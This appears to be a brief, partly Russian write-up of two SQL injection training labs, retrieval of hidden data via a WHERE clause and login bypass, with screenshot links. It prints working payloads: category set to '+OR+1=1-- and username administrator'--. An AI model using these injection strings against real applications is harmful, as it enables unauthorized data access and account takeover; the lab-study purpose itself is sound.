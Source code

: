 Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Присвоить category значение'+OR+1=1--
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql/lab_sql_1_1.PNG)
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql/lab_sql_1_2.png)

Lab: SQL injection vulnerability allowing login bypass

Ввести в поле username administrator'-- пароль admin

![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql/lab_sql_2_1.PNG)
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql/lab_sql_2_2.PNG)
